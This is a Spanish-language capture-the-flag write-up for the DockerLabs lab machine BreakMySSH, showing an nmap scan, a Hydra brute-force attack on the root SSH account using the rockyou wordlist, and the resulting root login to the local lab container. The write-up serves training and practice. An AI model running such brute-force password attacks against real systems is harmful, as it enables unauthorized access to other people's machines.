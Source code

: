 ```yaml
---
title: BreakMySSH - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/brakemyssh.png" alt="Captura de pantalla de la máquina BreakMySSH en DockerLabs">

Hoy explotaremos la máquina *BreakMySSH* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a realizar un ataque de fuerza bruta con **Hydra** para obtener la contraseña del usuario **root.**

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 13:14 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
```



EEl servicio SSH está activo. Como no encontramos más opciones, realizamos un ataque de fuerza bruta con **Hydra** al usuario **root** de la máquina víctima, usando el diccionario **rockyou.**

## Hydra

Realizamos un ataque de fuerza bruta contra el usuario **root.**

```bash
➤ hydra -l root  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```



## SSH 

Intentamos la conexión mediante **SSH** con las credenciales obtenidas durante el ataque:

```bash
➤ ssh root@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@e250faedf493:~# whoami
root
root@e250faedf493:~# 
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
